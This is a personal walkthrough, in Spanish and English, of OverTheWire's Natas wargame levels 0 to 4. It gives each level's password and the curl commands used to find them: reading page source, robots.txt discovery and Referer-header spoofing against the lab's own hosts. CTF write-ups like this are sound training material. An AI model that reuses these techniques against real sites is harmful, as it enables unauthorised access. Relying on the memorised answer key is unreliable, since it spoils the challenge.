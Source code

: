 # WarGames-Natas
Mis pasos en Wargames "Natas"

## Level 0:

Connet to:
http://natas0.natas.labs.overthewire.org/
User and password: natas0

Using the source code with right click in the browser we see in line 16 the password:
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->

## Level 1:

http://natas1.natas.labs.overthewire.org/
User and password: natas1
Password : g9D9cREhslqBKtcA2uocGHPfMZVzeFK6

Its blocked rightclicking, but used DevTools in me you can see the code:

<!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->


## Level 2:

http://natas2.natas.labs.overthewire.org/
User and password: natas2
Password : h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

Usa la url como un directorio porque hay un archivo en localizacion /files/pixel.png pues navegas, hasta el y estara el fichero user.txt 
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

## Level 3:

http://natas3.natas.labs.overthewire.org/
User and password: natas3
Password : G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

This have a comment about "No more information leaks!! Not even Google will find it this time…" 
Esto puede indicar que ha puesto una regla para que los robots de google no escaneen, por lo tanto miramos el archivo ubicado en Robots.txt, ya usando guia de comandos seria :

curl -u natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q  http://natas3.natas.labs.overthewire.org/robots.txt

Y muestra una carpeta llamada s3cr3t asi que :

curl -u natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q  http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

## Level 4:

http://natas4.natas.labs.overthewire.org/
User and password: natas4
Password : tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm http://natas4.natas.labs.overthewire.org/ -H "host: http://natas5.natas.labs.overthewire.org/"

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

Using a curl mode, is -e for reference url, this is a solution:
xcurl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm http://natas4.natas.labs.overthewire.org/ -e 'http://natas5.natas.labs.overthewire.org/'


Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

